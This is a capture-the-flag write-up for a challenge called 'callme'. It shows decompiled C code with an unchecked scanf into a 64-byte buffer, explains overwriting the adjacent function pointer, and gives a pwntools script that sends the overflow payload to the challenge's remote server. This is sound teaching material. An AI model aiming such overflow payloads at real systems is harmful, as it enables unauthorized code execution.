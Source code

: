 ![problem statement](problem-statement.png)

Opening the binary file in ghidra to find the following functions (some parts are removed for simplicity, some types and variables are renamed for better understanding):
```c
void main(void)
{
  char buff [64];
  code *code_addr;
  code_addr = (code *)0x0;
  printDogArt();
  fflush(_stdout);
  puts("who let the dogs out:");
  fflush(_stdout);
  __isoc99_scanf("%s", buff);
  if (code_addr == (code *)0x0) {
    puts("I tell the fellas start the name calling!");
  }
  else {
    printf("Well, the party was nice, the party was  @ %p\n",code_addr);
    fflush(_stdout);
    (*code_addr)();
  }
  exit(0);
}

void callme(void)
{
  puts("BDSEC{find_the_flag_on_server!!!}");
  exit(0);
}
```

Now, we want to call the function `callme`. But how do we do that? Well, if we look at the stack frame of `main`, we can see that `code_addr` is located right after `buff`. This means that if we overflow `buff`, we can overwrite `code_addr` with the address of `callme`. Now if the value of `code_addr` is not `0x0`, then `callme` will be called and we will get the flag. From ghidra we can find the address of the `callme` function to be `0x0804875e`. So to do the exploit, we can use the following python script (using the `pwntools` python library):
```python
from pwn import *

# io = process('./callme')
io = remote('139.144.184.150', 3333)
io.recvuntil(b'who let the dogs out:\n')
io.sendline(b'A'*64 + p64(0x0804875e))
print(io.recvall().decode())
```